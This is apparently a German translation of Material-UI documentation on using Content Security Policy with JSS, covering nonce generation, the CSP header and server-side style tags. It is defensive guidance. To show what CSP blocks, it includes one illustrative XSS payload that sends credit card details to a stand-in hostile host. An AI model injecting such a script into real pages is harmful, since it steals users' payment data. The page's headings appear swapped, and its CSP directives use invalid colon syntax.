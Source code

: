 ### Wie kann man CSP implementieren?

Grundsätzlich verringert CSP Cross-Site Scripting (XSS)-Angriffe, indem Entwickler die Quellen angeben, aus denen ihre Assets abgerufen werden. Diese Liste wird vom Server als Header zurückgegeben. Angenommen, Sie haben eine Website unter `https://example.com` gehostet. Der CSP-Header `default-src: 'self';` erlaubt alle Assets, die sich unter `https://example.com/*` befinden und blockt alle anderen. Wenn es auf Ihrer Website einen für XSS anfälligen Bereich gibt, in dem nicht eingegebene Benutzereingaben angezeigt werden, könnte ein Angreifer Folgendes eingeben:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Diese Sicherheitsanfälligkeit ermöglicht es dem Angreifer, irgendetwas auszuführen. Mit einem sicheren CSP-Header lädt der Browser dieses Skript jedoch nicht.

Weitere Informationen zu CSP finden Sie in den [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### Was ist CSP und warum ist es nützlich?

Um CSP mit Material-UI (und JSS) verwenden zu können, müssen Sie eine Nonce verwenden. Eine Nonce ist eine zufällig generierte Zeichenfolge, die nur einmal verwendet wird. Daher müssen Sie eine Server-Middleware hinzufügen, um für jede Anforderung eine zu generieren. JSS hat ein [tolles Tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) wie man dies mit Express und React Helmet erreichen kann. Lesen Sie für einen grundlegenden Überblick weiter.

Eine CSP-Nonce ist eine Base 64-codierte Zeichenfolge. Sie können so erstellen:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Es ist sehr wichtig, dass Sie die UUID Version 4 verwenden, da es einen **unvorhersehbaren** String generiert. Sie wenden dann dieses Nonce auf den CSP-Header an. Ein CSP-Header könnte mit der angewendeten Nonce so aussehen:

```js
header('Content-Security-Policy')
  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

Wenn Sie Server Side-Rendering (SSR) verwenden, sollten Sie die Nonce im `<style>`-Tag des Servers übergeben.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheets.toString() }}
/>
```
